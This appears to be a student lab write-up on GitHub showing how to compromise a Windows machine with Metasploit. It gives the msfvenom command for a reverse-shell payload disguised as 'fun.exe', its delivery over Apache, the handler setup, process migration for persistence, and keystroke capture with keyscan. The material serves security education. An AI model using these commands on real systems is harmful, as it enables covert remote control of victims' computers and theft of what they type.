 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

![325062710-3c2a2010-2359-4571-a58f-d200759f34a8](https://github.com/manikandan26052004/Compromising-windows-using-Metasploit/assets/121999845/db2aa273-1e2e-4736-99f5-295937b38cd0)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:

![325062765-b99a4e6b-48a1-4a07-8489-4369121bea5c](https://github.com/manikandan26052004/Compromising-windows-using-Metasploit/assets/121999845/f9deb0ac-da69-4d20-8ec6-4e05d33bb3bd)

copy the fun.exe into the apache /var/www/html folder

![325062844-40497d17-096b-46cf-a6cc-ca3372776719](https://github.com/manikandan26052004/Compromising-windows-using-Metasploit/assets/121999845/ea569f58-a606-419f-bceb-b522800f6eb7)

Start apache server sudo systemctl apache2 start

![325062910-66a0c1b4-52d0-4391-979f-f0a2c44e1643](https://github.com/manikandan26052004/Compromising-windows-using-Metasploit/assets/121999845/c51ead63-872b-4e83-bcab-acc7b313d410)

Check the status of apache2

![325062991-a31e9020-30ea-4761-8af3-c5b98f51a367](https://github.com/manikandan26052004/Compromising-windows-using-Metasploit/assets/121999845/6384bf9a-505a-478a-936c-e866a9e89905)

Invoke msfconsole:

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![325063108-dd19969a-4a23-4793-9976-e15ad7bbd664](https://github.com/manikandan26052004/Compromising-windows-using-Metasploit/assets/121999845/640efb0c-9499-442f-9bd1-b1ab99b509d6)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![325063334-5f1f0412-7440-4ead-9a2f-8be93ce7ff16](https://github.com/manikandan26052004/Compromising-windows-using-Metasploit/assets/121999845/0b551c0e-36e3-404f-937b-73bc302f7aca)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![325063408-949a0b8f-4725-4c59-9441-9271a1d2c223](https://github.com/manikandan26052004/Compromising-windows-using-Metasploit/assets/121999845/5d050551-88f8-41f5-9c6c-e5d902cc71d2)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![325063590-b12a63f9-4971-49e6-b66f-3a672f73c439](https://github.com/manikandan26052004/Compromising-windows-using-Metasploit/assets/121999845/effb17bc-3537-4b14-83b8-196b0ab5a793)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![325063711-1fa5d8d0-eeef-4ef1-a2be-9795445f1e30](https://github.com/manikandan26052004/Compromising-windows-using-Metasploit/assets/121999845/739754ed-1afd-4a44-b560-6bfcf18352fb)

keyscan_dump Shows the keystrokes captured so far

![325063761-15941174-012b-4f93-b402-805ed8aa92a1](https://github.com/manikandan26052004/Compromising-windows-using-Metasploit/assets/121999845/2e727753-625c-4c62-8c0f-667049ddedcb)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
